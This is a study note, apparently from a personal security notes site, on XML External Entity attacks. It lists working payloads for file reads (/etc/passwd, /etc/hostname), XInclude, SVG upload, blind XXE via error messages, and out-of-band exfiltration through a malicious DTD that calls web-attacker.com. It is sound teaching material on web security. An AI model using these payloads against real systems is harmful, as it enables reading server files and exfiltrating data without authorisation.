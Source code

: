 ```yaml
---
layout: note
title: "XXE"
category: Web security
tag: [Web security, Note]
---
```


# XML External Entities

## Overview

This attack occurs when XML input containing a reference to an external entity is processed by a weakly configured XML parser tricking the server to access a resource.

## Exploitation

#### Defining and using an **external entity** in XML:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
<query>&xxe;</query>
```
If external entities are not allowed you may try XML **parameter entities**:
```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

#### XInclude is a part of the XML specification that allows an XML document to be built from sub-documents.
An XInclude attack would look like:
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include parse="text" href="file:///etc/passwd"/>
</foo>
```

#### XXE attacks via **file upload**. Note that SVG format uses XML.
```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
  <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

#### XXE attacks via **modified content type**:  
```http
Content-Type: application/x-www-form-urlencoded -> text/xml
```
#### **Exfiltrate data out-of-band** for blind XXEs

On the server:
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```
Payload:
```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
```

Mentions:  
- You can use burp collaborator to monitor DNS queries to your server.
- If out-of-band interactions are blocked you can try exploiting XXE to retrieve data by repurposing a local DTD. If a document's DTD uses a hybrid of internal and external DTD declarations, then the internal DTD can redefine entities that are declared in the external DTD. When this happens, the restriction on using an XML parameter entity within the definition of another parameter entity is relaxed. Now you can redefine an entity from that DTD and cause an error that is hopefully displayed.
<br/>
#### Exploiting **blind XXE** to **retrieve data via error messages**
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

## Attack surface
- **SSRF**
- **File retrieval** from server

## Resources
[Portswigger](https://portswigger.net/web-security/xxe)
